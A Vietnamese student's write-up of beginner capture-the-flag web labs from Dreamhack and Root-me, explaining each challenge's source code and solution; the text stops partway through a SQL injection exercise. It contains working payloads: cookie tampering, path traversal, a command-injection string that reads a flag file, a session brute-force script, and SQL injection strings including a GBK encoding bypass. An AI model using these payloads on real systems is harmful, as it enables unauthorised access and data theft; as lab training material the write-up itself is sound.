

# Task 5.2

Text: TASK 5.2
- Làm hết các lab sau:
https://dreamhack.io/wargame?category=web&page=1&difficulty=beginner&ordering=-cnt_solvers

Root-me:
SQL injection - Authentication
SQL injection - Authentication - GBK
SQL injection - String
SQL injection - Numeric
SQL Injection - Routed
SQL Truncation
SQL injection - Error
SQL injection - Insert

DEADLINE: 23h 7/8

# 1. Dreamhack - cookie

- Đọc source code đề cung cấp
- app.py
    
    ```python
        #!/usr/bin/python3
        from flask import Flask, request, render_template, make_response, redirect, url_for
    
        app = Flask(__name__)
    
        try:
            FLAG = open('./flag.txt', 'r').read()
        except:
            FLAG = '[**FLAG**]'
    
        users = {
            'guest': 'guest',
            'admin': FLAG
        }
    
        @app.route('/')
        def index():
            username = request.cookies.get('username', None)
            if username:
                return render_template('index.html', text=f'Hello {username}, {"flag is " + FLAG if username == "admin" else "you are not admin"}')
            return render_template('index.html')
    
        @app.route('/login', methods=['GET', 'POST'])
        def login():
            if request.method == 'GET':
                return render_template('login.html')
            elif request.method == 'POST':
                username = request.form.get('username')
                password = request.form.get('password')
                try:
                    pw = users[username]
                except:
                    return '<script>alert("not found user");history.go(-1);</script>'
                if pw == password:
                    resp = make_response(redirect(url_for('index')) )
                    resp.set_cookie('username', username)
                    return resp 
                return '<script>alert("wrong password");history.go(-1);</script>'
    
        app.run(host='0.0.0.0', port=8000)
    ```
    

```python
try:
        FLAG = open('./flag.txt', 'r').read()
    except:
        FLAG = '[**FLAG**]'

    users = {
        'guest': 'guest',
        'admin': FLAG
    }
```

ta thấy có 2 tài khoản trong đó tài khoản admin có password là flag cần tìm

- Khi bạn login đúng, server sẽ: `resp.set_cookie('username', username)`   
→ Tạo **cookie** có tên **`username`**, giá trị = tên đăng nhập mà bạn nhập.
- Ở route `/`, server đọc lại cookie: `username = request.cookies.get('username', None)`
→ `username` ở đây chính là **giá trị của cookie** chứ không phải dữ liệu form.
- Nếu cookie đó có giá trị `"admin"`:  `if username == "admin":`
    
    → Hiện flag
    
- Đầu tiên ta đăng nhập bằng tài khoản guest, rồi vào cookie sửa `guest` thành `admin`




- Đã hiện flag


- Có thể dùng flag này để đăng nhập admin vì password của admin là flag

# 2. Dreamhack - **devtools-sources**

- ctrl + shift + f : tìm kiếm toàn bộ


# **3. file-download-1**

- bài đã gợi í mở file [`flag.py`](http://flag.py) , ta cùng phân tích source code để xem có thể mở file flag.py bằng cách nào

```python
@APP.route('/')
def index():
    files = os.listdir(UPLOAD_DIR)
    return render_template('index.html', files=files)

@APP.route('/upload', methods=['GET', 'POST'])
def upload_memo():
    if request.method == 'POST':
        filename = request.form.get('filename')
        content = request.form.get('content').encode('utf-8')

        if filename.find('..') != -1:
            return render_template('upload_result.html', data='bad characters,,')

        with open(f'{UPLOAD_DIR}/{filename}', 'wb') as f:
            f.write(content)

        return redirect('/')

    return render_template('upload.html')

@APP.route('/read')
def read_memo():
    error = False
    data = b''

    filename = request.args.get('name', '')

    try:
        with open(f'{UPLOAD_DIR}/{filename}', 'rb') as f:
            data = f.read()
    except (IsADirectoryError, FileNotFoundError):
        error = True

    return render_template('read.html',
                           filename=filename,
                           content=data.decode('utf-8'),
                           error=error)
```

- ta thấy trang /read lấy file từ query string(name) và mở file upload/<filename> đó để đọc mà không filter các dấu `..` hoặc `/` từ filename
- ⇒ lỗ hổng **Path Traversal**
- ta truy cập file [flag.py](http://flag.py) bằng cách
    
    `/read?name=../flag.py` 
    
- khi mở file
    
    ```python
    with open(f'{UPLOAD_DIR}/{filename}', 'rb') as f:
    ```
    
    - `UPLOAD_DIR` = `"uploads"`.
    - `filename` = `"../flag.py"`.
    - f-string tạo ra: `uploads/../flag.py`
    - Trong hệ thống file:
        - `.` → thư mục hiện tại.
        - `..` → thư mục cha (lùi lên 1 cấp).
    - `uploads/../flag.py` nghĩa là:
        - Vào thư mục `uploads/`.
        - Lùi 1 cấp lên thư mục cha.
        - Mở file `flag.py` ở đó.
    
    Vì ta thấy `from flag import FLAG` , nghĩa là file FLAG được import trực tiếp nên nó phải nằm trong cùng thư mục với file python ( thư mục gốc của app) 
    


# 4. Dreamhack - **command-injection-1**

- check source code


- ta thấy `host` được bọc trong dấu `" "` nên ta cần thoát dấu ““ và comment ở cuối bằng dấu `#`
- payload `"; cat flag.py #`


# **5. Dreamhack - Carve Party**

- check source code

```python
<script>
            var pumpkin = [124, 112, 59, 73, 167, 100, 105, 75, 59, 23, 16, 181, 165, 104, 43, 49, 118, 71, 112, 169, 43, 53];
            var counter = 0;
            var pie = 1;

            function make() {
                if (0 < counter && counter <= 1000) {
                    $('#jack-nose').css('opacity', (counter) + '%');
                } else if (1000 < counter && counter <= 3000) {
                    $('#jack-left').css('opacity', (counter - 1000) / 2 + '%');
                } else if (3000 < counter && counter <= 5000) {
                    $('#jack-right').css('opacity', (counter - 3000) / 2 + '%');
                } else if (5000 < counter && counter <= 10000) {
                    $('#jack-mouth').css('opacity', (counter - 5000) / 5 + '%');
                }

                if (10000 < counter) {
                    $('#jack-target').addClass('tada');
                    var ctx = document.querySelector("canvas").getContext("2d")
                      , dashLen = 220
                      , dashOffset = dashLen
                      , speed = 20
                      , txt = pumpkin.map(x => String.fromCharCode(x)).join('')
                      , x = 30
                      , i = 0;

                    ctx.font = "50px Comic Sans MS, cursive, TSCu_Comic, sans-serif";
                    ctx.lineWidth = 5;
                    ctx.lineJoin = "round";
                    ctx.globalAlpha = 2 / 3;
                    ctx.strokeStyle = ctx.fillStyle = "#1f2f90";

                    (function loop() {
                        ctx.clearRect(x, 0, 60, 150);
                        ctx.setLineDash([dashLen - dashOffset, dashOffset - speed]);
                        // create a long dash mask
                        dashOffset -= speed;
                        // reduce dash length
                        ctx.strokeText(txt[i], x, 90);
                        // stroke letter

                        if (dashOffset > 0)
                            requestAnimationFrame(loop);
                            // animate
                        else {
                            ctx.fillText(txt[i], x, 90);
                            // fill final letter
                            dashOffset = dashLen;
                            // prep next char
                            x += ctx.measureText(txt[i++]).width + ctx.lineWidth * Math.random();
                            ctx.setTransform(1, 0, 0, 1, 0, 3 * Math.random());
                            // random y-delta
                            ctx.rotate(Math.random() * 0.005);
                            // random rotation
                            if (i < txt.length)
                                requestAnimationFrame(loop);
                        }
                    }
                    )();
                } else {
                    $('#clicks').text(10000 - counter);
                }
            }

            $(function() {
                $('#jack-target').click(function() {
                    counter += 1;
                    if (counter <= 10000 && counter % 100 == 0) {
                        for (var i = 0; i < pumpkin.length; i++) {
                            pumpkin[i] ^= pie;
                            pie = ((pie ^ 0xff) + (i * 10)) & 0xff;
                        }
                    }
                    make();
                });
            });
        </script>
```

1. Các biến chính

```jsx
var pumpkin = [124, 112, 59, 73, 167, 100, 105, 75, 59, 23, 16, 181, 165, 104, 43, 49, 118, 71, 112, 169, 43, 53];
var counter = 0;
var pie = 1;
```

- `pumpkin` = mảng số, chính là dữ liệu mã hóa của flag.
- `counter` = số lần đã click.
- `pie` = giá trị phụ, thay đổi mỗi lần giải mã.

---

2. Hàm `make()`

- Nếu `counter <= 1000` → chỉ update giao diện (ẩn/hiện mắt mũi miệng của hình bí ngô).
- Nếu `counter > 10000` → sẽ vẽ flag trên `canvas`.
    
    ```jsx
    txt = pumpkin.map(x => String.fromCharCode(x)).join('')
    
    ```
    
    tức là sau khi giải mã đúng, mảng `pumpkin` sẽ trở thành mã ASCII của flag.
    

---

3. Hàm click

**Cách 1:**

```jsx
$('#jack-target').click(function() {
    counter += 1;
    if (counter <= 10000 && counter % 100 == 0) {
        for (var i = 0; i < pumpkin.length; i++) {
            pumpkin[i] ^= pie;
            pie = ((pie ^ 0xff) + (i * 10)) & 0xff;
        }
    }
    make();
});

```

- Mỗi click: `counter` tăng 1.
- Mỗi khi `counter` chia hết cho 100 → thực hiện **giải mã một bước** trên mảng `pumpkin`.
- Sau khi đủ `10000` lần → gọi `make()` → hiển thị flag (từ mảng `pumpkin` đã được giải mã xong).
- Script chạy trong console:

```python
var pumpkin = [124, 112, 59, 73, 167, 100, 105, 75, 59, 23, 16, 181, 165, 104, 43, 49, 118, 71, 112, 169, 43, 53];
var pie = 1;

for (var step = 0; step < 100; step++) { // cần 100 lần giải mã
    for (var i = 0; i < pumpkin.length; i++) {
        pumpkin[i] ^= pie;
        pie = ((pie ^ 0xff) + (i * 10)) & 0xff;
    }
}

var flag = pumpkin.map(x => String.fromCharCode(x)).join('');
console.log(flag);
```

- Trên trang gốc, cứ **mỗi 100 click** mới chạy 1 lần vòng giải mã mảng `pumpkin`.
- 10.000 click ⇒ **100 lần** giải mã ⇒ ta lặp 100 bước cho nhanh.
- Duyệt từng byte `pumpkin[i]`.
- `pumpkin[i] ^= pie;`
    - Toán tử `^` là **XOR bit**. Mỗi byte được XOR với “khóa” hiện tại `pie` ⇒ dần dần “gỡ mã”.
- Cập nhật khóa:
    - `pie ^ 0xff`: đảo bit 8-bit của `pie` (vì `0xff` = 255 = `11111111₂`).
    - `+ (i * 10)`: làm khóa **phụ thuộc vị trí** `i`.
    - `& 0xff`: ép về **1 byte** (0–255) để không tràn số.
- Vì khóa đổi sau **mỗi phần tử**, nên thứ tự lặp rất quan trọng (đúng như code trên trang).
- Sau 100 vòng, `pumpkin` trở thành các **mã ký tự ASCII** của flag.
- `String.fromCharCode(x)`: biến mã số → ký tự.
- `join('')`: ghép thành chuỗi flag và in ra console.


**Cách 2: Tự động click**

```python
for (let i = 0; i < 10000; i++) {
  $('#jack-target').click();
}
```

- `for (let i = 0; i < 10000; i++)` → vòng lặp chạy 10.000 lần.
- `$('#jack-target')` → dùng jQuery chọn **phần tử có id là `jack-target`** trong HTML.
- `.click()` → gọi **sự kiện click** của phần tử đó.
    - Nếu trên web có gắn `onclick` hoặc một listener JS nào đó, thì mỗi lần `.click()` sẽ kích hoạt đúng như người dùng click chuột.
- Kết quả: web sẽ nhận **10.000 lần click ảo** ngay lập tức → giảm bộ đếm xuống 0 và flag xuất hiện.


# **6. Dreamhack - pathtraversal**

```python
@app.route('/get_info', methods=['GET', 'POST'])
def get_info():
    if request.method == 'GET':
        return render_template('get_info.html')
    elif request.method == 'POST':
        userid = request.form.get('userid', '')
        info = requests.get(f'{API_HOST}/api/user/{userid}').text
        return render_template('get_info.html', info=info)
```

- Người dùng nhập `userid`.
- Server sẽ **gửi request** đến API nội bộ:
    
    ```python
    http://127.0.0.1:8000/api/user/<userid>
    ```
    
- khi ta vào `/api/flag` thì server sẽ mở flag và hiển thị


- mục tiêu cần truy cập vào `/api/flag` nên ta phải lùi lên một cấp
- nhập userid= `../flag` bằng burpsuite vì trình duyệt chặn ký hiệu lạ


# 7. Dreamhack - **ex-reg-ex**

- check source code

```python
#!/usr/bin/python3
from flask import Flask, request, render_template
import re

app = Flask(__name__)

try:
    FLAG = open("./flag.txt", "r").read()       # flag is here!
except:
    FLAG = "[**FLAG**]"

@app.route("/", methods = ["GET", "POST"])
def index():
    input_val = ""
    if request.method == "POST":
        input_val = request.form.get("input_val", "")
        m = re.match(r'dr\w{5,7}e\d+am@[a-z]{3,7}\.\w+', input_val)
        if m:
            return render_template("index.html", pre_txt=input_val, flag=FLAG)
    return render_template("index.html", pre_txt=input_val, flag='?')

app.run(host="0.0.0.0", port=8000)
```

`m = re.match(r'dr\w{5,7}e\d+am@[a-z]{3,7}\.\w+', input_val)`

Regex pattern này yêu cầu input phải giống như một **email** đặc biệt:

- `dr` → bắt đầu bằng **dr**
- `\w{5,7}` → theo sau là 5 đến 7 ký tự chữ/số hoặc `_`
- `e` → sau đó là chữ **e**
- `\d+` → tiếp theo là **một hoặc nhiều số**
- `am` → sau đó là **am**
- `@` → ký tự @
- `[a-z]{3,7}` → tên miền 3–7 chữ cái thường
- `\.` → dấu chấm
- `\w+` → phần mở rộng tên miền (ví dụ `.com`, `.vn`)

→ Đây là một challenge kiểu **Regex Check**. Muốn lấy flag thì bạn phải nhập vào một chuỗi thỏa mãn regex.

- input hợp lệ :

[drabcdefe123am@gmail.com](mailto:drabcdefe123am@gmail.com)


# 8. Dreamhack - **phpreg**


## 1. Đoạn code kiểm tra điều kiện để qua step 1

```python
// pw filtering
if (preg_match("/[a-zA-Z]/", $input_pw)) {
  echo "alphabet in the pw :(";
}
else {
  $name = preg_replace("/nyang/i", "", $input_name);
  $pw = preg_replace("/\d*\@\d{2,3}(31)+[^0-8\"]\!/", "d4y0r50ng", $input_pw);
  
  if ($name === "dnyang0310" && $pw === "d4y0r50ng+1+13") {
    echo "Step 2 : Almost done...";
  }
}
```

1. Điều kiện kiểm tra password (`$input_pw`):
    - Nếu `$input_pw` chứa **chữ cái (a-z hoặc A-Z)** → bị chặn (`alphabet in the pw :(`).
    - Nghĩa là `$input_pw` **chỉ được chứa số, ký tự đặc biệt (`@`, `!`, …)**, tuyệt đối **không có chữ cái**.

---

2. Xử lý `$input_name`:

```php
$name = preg_replace("/nyang/i", "", $input_name);
```

- Regex `/nyang/i` tìm từ **nyang** (không phân biệt hoa/thường).
- Sau đó thay thế bằng **chuỗi rỗng** (xóa nó đi).
- Điều kiện cuối cần:
    
    ```php
    $name === "dnyang0310"
    ```
    
    → Tức là `$input_name` ban đầu **phải chứa thêm "nyang" ở đâu đó**, để sau khi xóa `"nyang"` thì còn lại `"dnyang0310"`.
    
    **Ví dụ hợp lệ:**
    
    - `$input_name = "dnynyangang0310"`

---

3. Xử lý `$input_pw`:

```php
$pw = preg_replace("/\d*\@\d{2,3}(31)+[^0-8\"]\!/", "d4y0r50ng", $input_pw);
```

- Regex này có nghĩa:
    - `\d*` → một chuỗi số (có thể rỗng).
    - `@` → ký tự `@`.
    - `\d{2,3}` → 2 hoặc 3 chữ số.
    - `(31)+` → số `31` lặp lại ít nhất 1 lần.
    - `[^0-8\"]` → một ký tự **không phải** là số từ 0–8 và cũng **không phải dấu `"`**.
    - `\!` → dấu chấm than `!`.

👉 Nếu `$input_pw` khớp regex này → sẽ được thay thế thành `"d4y0r50ng"`.

---

4. Điều kiện cuối cùng:

```php
if ($name === "dnyang0310" && $pw === "d4y0r50ng+1+13")
```

- `$name` phải chính xác `"dnyang0310"`.
- `$pw` sau khi `preg_replace` phải bằng `"d4y0r50ng+1+13"`

⇒ ta sẽ chọn `$name` là `dnyangnyang0310` , `$pw`  là `12@12319!+1+13`

## 2. Step 2


- chỉ filter `flag`
- Dùng ký tự thay thế (shell cho phép tách từ):

```bash
cat ../dream/fla*g.txt
```

hoặc

```bash
cat ../dream/fla?.txt
```

- `*`  hoặc `?` sẽ match ký tự, shell sẽ tự hoàn thành thành `flag.txt`.

Regex `/flag/i` sẽ không khớp vì input là `"fla*g"`, không phải `"flag"`.


# **9.Deamhack - Flying Chars**


- tìm thấy 20 ảnh các ký tự này là flag
- ghép lại các chữ chính là flag
- trong source code có
    
    ```python
    function anim(elem, pos, dis) {
      function move() {
        pos += dis;
        if (pos > max_pos) {
          pos = 0;
        }
        elem.style.transform = `translateX(${pos}px)`;
        requestAnimationFrame(move);
      }
      move();
    }
    ```
    
- `elem`: phần tử ảnh (``).
- `pos`: vị trí ban đầu (0).
- `dis`: khoảng dịch chuyển mỗi frame (tốc độ).
- Vậy ta chỉ cần chạy lệnh sau vào console để cho ảnh đứng yên

```python
for(var i = 0; i < 20; i++){
      anim(imgs[i], 0, 0);
}
```


→  DH{Too_H4rd_to_sEe_th3_Ch4rs_x.x}

# **10.Dreamhack - 🌱 simple-web-request**

- Source code ( file app.py)
    
    ```python
    #!/usr/bin/python3
    import os
    from flask import Flask, request, render_template, redirect, url_for
    import sys
    
    app = Flask(__name__)
    
    try: 
        # flag is here!
        FLAG = open("./flag.txt", "r").read()      
    except:
        FLAG = "[**FLAG**]"
    
    @app.route("/")
    def index():
        return render_template("index.html")
    
    @app.route("/step1", methods=["GET", "POST"])
    def step1():
    
        #### 풀이와 관계없는 치팅 방지 코드
        global step1_num
        step1_num = int.from_bytes(os.urandom(16), sys.byteorder)
        ####
    
        if request.method == "GET":
            prm1 = request.args.get("param", "")
            prm2 = request.args.get("param2", "")
            step1_text = "param : " + prm1 + "\nparam2 : " + prm2 + "\n"
            if prm1 == "getget" and prm2 == "rerequest":
                return redirect(url_for("step2", prev_step_num = step1_num))
            return render_template("step1.html", text = step1_text)
        else: 
            return render_template("step1.html", text = "Not POST")
    
    @app.route("/step2", methods=["GET", "POST"])
    def step2():
        if request.method == "GET":
    
        #### 풀이와 관계없는 치팅 방지 코드
            if request.args.get("prev_step_num"):
                try:
                    prev_step_num = request.args.get("prev_step_num")
                    if prev_step_num == str(step1_num):
                        global step2_num
                        step2_num = int.from_bytes(os.urandom(16), sys.byteorder)
                        return render_template("step2.html", prev_step_num = step1_num, hidden_num = step2_num)
                except:
                    return render_template("step2.html", text="Not yet")
            return render_template("step2.html", text="Not yet")
        ####
    
        else: 
            return render_template("step2.html", text="Not POST")
    
        
    @app.route("/flag", methods=["GET", "POST"])
    def flag():
        if request.method == "GET":
            return render_template("flag.html", flag_txt="Not yet")
        else:
    
            #### 풀이와 관계없는 치팅 방지 코드
            prev_step_num = request.form.get("check", "")
            try:
                if prev_step_num == str(step2_num):
            ####
    
                    prm1 = request.form.get("param", "")
                    prm2 = request.form.get("param2", "")
                    if prm1 == "pooost" and prm2 == "requeeest":
                        return render_template("flag.html", flag_txt=FLAG)
                    else:
                        return redirect(url_for("step2", prev_step_num = str(step1_num)))
                return render_template("flag.html", flag_txt="Not yet")
            except:
                return render_template("flag.html", flag_txt="Not yet")
                
    
    app.run(host="0.0.0.0", port=8000)
    ```
    

Ứng dụng có 3 step chính:

- `/step1` (GET → nếu tham số đúng thì qua step2)
- `/step2` (GET → phải đi từ step1 hợp lệ thì mới nhận hidden number, sau đó để dùng cho step3)
- `/flag` (POST → cần gửi đúng hidden number và param thì mới hiện flag).

```python
        //step 1
        if prm1 == "getget" and prm2 == "rerequest":
            return redirect(url_for("step2", prev_step_num = step1_num))
```

- step 1 kiểm tra điều kiện
    - Nếu `param = getget` và `param2 = rerequest`
    - Thì chuyển hướng (`redirect`) sang trang `/step2` và kèm theo query string `prev_step_num=<step1_num>`.
- step 1 tạo một số random để step 2 kiểm tra số đó, nếu step 2 ko có thì ko hợp lệ

```python
//step 2
@app.route("/step2", methods=["GET", "POST"])
def step2():
    if request.method == "GET":

    #### 풀이와 관계없는 치팅 방지 코드
        if request.args.get("prev_step_num"):
            try:
                prev_step_num = request.args.get("prev_step_num")
                if prev_step_num == str(step1_num):
                    global step2_num
                    step2_num = int.from_bytes(os.urandom(16), sys.byteorder)
                    return render_template("step2.html", prev_step_num = step1_num, hidden_num = step2_num)
            except:
                return render_template("step2.html", text="Not yet")
        return render_template("step2.html", text="Not yet")
    ####

    else: 
        return render_template("step2.html", text="Not POST")
```

- step 2 kiểm tra prev_step_num từ url của step 1 gửi qua, đúng thì chấp nhận không nhảy cóc
- sau đó nó sẽ tạo step2_num mới và hiện thị trên màn hình để qua step 3( hoặc là ko hiển thị)

```python
//step 3
@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html", flag_txt="Not yet")
    else:

        #### 풀이와 관계없는 치팅 방지 코드
        prev_step_num = request.form.get("check", "")
        try:
            if prev_step_num == str(step2_num):
        ####

                prm1 = request.form.get("param", "")
                prm2 = request.form.get("param2", "")
                if prm1 == "pooost" and prm2 == "requeeest":
                    return render_template("flag.html", flag_txt=FLAG)
                else:
                    return redirect(url_for("step2", prev_step_num = str(step1_num)))
            return render_template("flag.html", flag_txt="Not yet")
        except:
            return render_template("flag.html", flag_txt="Not yet")
```

- step 3 kiểm tra `prm1 == "pooost" and prm2 == "requeeest"` thì mới hiện flag
- Step 1


- step 2 ẩn giá trị của step2_num


- nhập `prm1 == "pooost"` và `prm2 == "requeeest"`


# **11. Deamhack -session**

- source code app.py
    
    ```python
    #!/usr/bin/python3
    from flask import Flask, request, render_template, make_response, redirect, url_for
    
    app = Flask(__name__)
    
    try:
        FLAG = open('./flag.txt', 'r').read()
    except:
        FLAG = '[**FLAG**]'
    
    users = {
        'guest': 'guest',
        'user': 'user1234',
        'admin': FLAG
    }
    
    session_storage = {
    }
    
    @app.route('/')
    def index():
        session_id = request.cookies.get('sessionid', None)
        try:
            username = session_storage[session_id]
        except KeyError:
            return render_template('index.html')
    
        return render_template('index.html', text=f'Hello {username}, {"flag is " + FLAG if username == "admin" else "you are not admin"}')
    
    @app.route('/login', methods=['GET', 'POST'])
    def login():
        if request.method == 'GET':
            return render_template('login.html')
        elif request.method == 'POST':
            username = request.form.get('username')
            password = request.form.get('password')
            try:
                pw = users[username]
            except:
                return '<script>alert("not found user");history.go(-1);</script>'
            if pw == password:
                resp = make_response(redirect(url_for('index')) )
                session_id = os.urandom(4).hex()
                session_storage[session_id] = username
                resp.set_cookie('sessionid', session_id)
                return resp 
            return '<script>alert("wrong password");history.go(-1);</script>'
    
    if __name__ == '__main__':
        import os
        session_storage[os.urandom(1).hex()] = 'admin'
        print(session_storage)
        app.run(host='0.0.0.0', port=8000)
    ```
    
- session_storage lưu cặp `sesionid : username`
- trong trang / ( trang chính) kiểm tra username = ‘admin’ thì in ra flag
- username được kiểm tra bằng sesionid
- trong trang /login, nếu đăng nhập đúng thì tạo sessionid của user đó vào `session_storage`
- cuối cùng là chạy app và sinh ra một sessionid ngẫu nhiên gán cho admin rồi in ra phía server, không phải client( vì lệnh `print` chỉ in phía server)

⇒ trang chỉ hiện flag nếu sessionid của trang / là sessionid của admin

- key sinh bằng `os.urandom(1).hex()` → chỉ có **256 khả năng** (`"00"` → `"ff"`) nên ta sẽ brute force session của admin
    
    ```python
    import requests
    
    url = "http://host8.dreamhack.games:11027/"
    
    for i in range(256):
        sid = f"{i:02x}"
        cookies = {"sessionid": sid}
        response = requests.get(url, cookies=cookies)
        if "flag" in response.text:
            print(sid)
            print(response.text)
            break
    ```
    


# **12. Dreamhack - web-misconf-1**

- Đề cung cấp cho ta 2 file Dockerfile và default.ini
- Dòng `ADD ./deploy/defaults.ini ./conf/defaults.ini` trong Dockerfile

→ Nó chép file cấu hình defaults.ini vào container, ghi đè file cấu hình mặc định của Grafana trong thư mục `/conf/defaults.ini`

- Grafana là một nền tảng mã nguồn mở để:
    - Vẽ dashboard (biểu đồ, bảng, gauge…) từ nhiều nguồn dữ liệu.
    - Quan sát/giám sát (observability): metrics, logs, traces.
    - Cảnh báo (alerting) khi số liệu vượt ngưỡng.
- Grafana ****làm được gì?
    - Kết nối nhiều **data source**: Prometheus, InfluxDB, Loki, Elasticsearch, MySQL/PostgreSQL, CloudWatch…
    - Tạo **dashboard** tùy biến với panel/variable/annotation.
    - **Alerting** qua email, webhook, Slack…
    - **Quản lý người dùng & quyền** (Viewer/Editor/Admin), org/team, plugin mở rộng.

---

Trong file defaults.ini , đây là file cấu hình chính của Grafana (nơi chứa mọi setting: server, database, bảo mật, user, auth…).

- **[server]**
    - Grafana chạy ở port `3000` ([http://localhost:3000](http://localhost:3000/)).
- **[database]**
    - Loại DB: `sqlite3` (file database nằm tại `data/grafana.db`).
- **[security]**
    - Tài khoản mặc định:
        
        ```
        admin_user = admin
        admin_password = admin
        ```
        
    - Có `secret_key` dùng để ký session.
- **[auth.anonymous]**
    - Có đoạn:
        
        ```
        org_name = DH{THIS_IS_FAKE_FLAG}
        ```
        
        → Đây chỉ là **fake flag**.
        
- **[users]**
    - Không cho tự đăng ký (`allow_sign_up = false`).
    - Người dùng mới mặc định role = Viewer.
- **[snapshots]**
    - Cho phép tạo snapshot và gửi ra ngoài (`external_snapshot_url`).

- Đăng nhập bằng tài khoản admin và vào phần Organization( vì gợi ý có nói flag ở phần Organization)


- flag nằm ở phần setting


# **13. Dreamhack - php7cmp4re**

- web nhận post `input1` và `input2` và kiểm tra input trong file check.php
- check.php
    
    ```php
    <html>
    <head>
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.2/css/bootstrap.min.css">
    <title>php7cmp4re</title>
    </head>
    <body>
        <!-- Fixed navbar -->
        <nav class="navbar navbar-default navbar-fixed-top">
          <div class="container">
            <div class="navbar-header">
              <a class="navbar-brand" href="/">php7cmp4re</a>
            </div>
            <div id="navbar">
              <ul class="nav navbar-nav">
                <li><a href="/">Index page</a></li>
              </ul>
            </div><!--/.nav-collapse -->
          </div>
        </nav>
        <div class="container">
        <?php
        require_once('flag.php');
        error_reporting(0);
        // POST request
        if ($_SERVER["REQUEST_METHOD"] == "POST") {
          $input_1 = $_POST["input1"] ? $_POST["input1"] : "";
          $input_2 = $_POST["input2"] ? $_POST["input2"] : "";
          sleep(1);
    
          if($input_1 != "" && $input_2 != ""){
            if(strlen($input_1) < 4){
              if($input_1 < "8" && $input_1 < "7.A" && $input_1 > "7.9"){
                if(strlen($input_2) < 3 && strlen($input_2) > 1){
                  if($input_2 < 74 && $input_2 > "74"){
                    echo "</br></br></br><pre>FLAG\n";
                    echo $flag;
                    echo "</pre>";
                  } else echo "<br><br><br><h4>Good try.</h4>";
                } else echo "<br><br><br><h4>Good try.</h4><br>";
              } else echo "<br><br><br><h4>Try again.</h4><br>";
            } else echo "<br><br><br><h4>Try again.</h4><br>";
          } else{
            echo '<br><br><br><h4>Fill the input box.</h4>';
          }
        } else echo "<br><br><br><h3>WHat??!</h3>";
        ?> 
        </div> 
    </body>
    </html>
    ```
    
- `if(strlen($input_1) < 4){` độ dài của input 1 < 4
- `if($input_1 < "8" && $input_1 < "7.A" && $input_1 > "7.9")` 
Ta cần tìm một giá trị **nhỏ hơn cả "8" và "7.A", nhưng lại lớn hơn "7.9"**
    - PHP so sánh chuỗi theo **từng ký tự ASCII** (giống `strcmp`).
    - `"7.A"` nghĩa là ký tự `"."` có mã ASCII 46, `"A"` = 65.
    - `"7.9"` là chuỗi có ký tự `"."` và `"9"` (57).
- `if(strlen($input_2) < 3 && strlen($input_2) > 1)`
    
    input2 phải có độ dài bằng 2 ký tự
    
- `if($input_2 < 74 && $input_2 > "74")`
    - `$input_2 < 74` → khi ép kiểu số, nó phải < 74.
    - `$input_2 > "74"` → khi so sánh với chuỗi, lại phải > "74".

⇒ Khi so sánh chuỗi với số trong PHP, nếu chuỗi bắt đầu **không phải số** → PHP ép nó về `0` .

Nếu chuỗi bắt đầu bằng **số hợp lệ** → PHP ép nó về số đó ( ví dụ: "45abc" == 45).

Khi so sánh chuỗi với chuỗi trong php PHP sẽ so sánh **từng ký tự theo mã ASCII.**


- để lớn hơn 9 và nhỏ hơn A thì ta có thể sử dụng ký tự `:` `;` `<` `=` `>` `?` `@`
- để nhỏ hơn số 74 và lớn hơn chuỗi “74”=55 52 ta có thể dùng `7:`

input1= `7.<` 

input2= `7:`


# **14. Rootme    SQL injection - Authentication**

- Retrieve the administrator password
- payload `admin'--`


nó nói password này nhưng không thấy đâu, có thể bị ẩn 


# **15. Rootme    SQL injection - Authentication - GBK**

- GBK : GBK là một hệ thống mã hóa ký tự được sử dụng để hiển thị văn bản trong ngôn ngữ Trung Quốc và một số ngôn ngữ khác sử dụng chữ Hán.
- Thử các payload đơn giản `admin'--` `admin' or'1'='1--`  đều không được
- Thử chuyển đầu vào login và password thành array


thì hiện ra lỗi vì sử dụng hàm `md5()` và `addslashes()` đều phải nhận tham số là string

- hàm `md5()` để băm (hash) chuỗi đầu vào thành một chuỗi 32 ký tự hexa.
- hàm `addslashes()` dùng để thêm dấu `\` vào trước các ký tự đặc biệt trong chuỗi, ví dụ `'`, `"`, `\`, và NULL. Mục đích là để "chống SQL Injection" (kiểu cũ, không an toàn).
- dấu `\` khi encode sẽ là `%5c` nên ta cần thêm một symboy để cộng với `%5c` phải ra được từ có nghĩa
- Vì bài sử dụng GBK nên ta có từ `%af%5c` sẽ là một từ trung quốc
- payload `%af'or 1=1-- -`


( bấm Follow redirection để burp tự chuyển trang khi có direc tới trang khác)

# **16. Rootme    SQL injection - Numeric**

- Sau một hồi mò điểm injection thì trên url của một trong cái chức năng sau


thêm dấu `'` vào cuối url của một trong các chứ năng đó sẽ hiện ra lỗi


→ csdl sử dụng SQLite. Trogn SQLite thì không có các  `information_schema` để liệt kê các bảng hoặc cột mà phải dùng `sqlite_master`

- thử pay load `'order by 1--`  thì thấy vẫn vì tham số của  `news_id` có thể nó không sử dụng kiểu chuỗi mà sử dụng kiểu số(integer)


- ta thử nhập `order by 1--` khi đó truy vấn thực sự sẽ trở thành
    
    `SELECT * FROM news WHERE new_id=1 order by 1-- ;`
    

→ ta thấy web không hiện lỗi nữa 

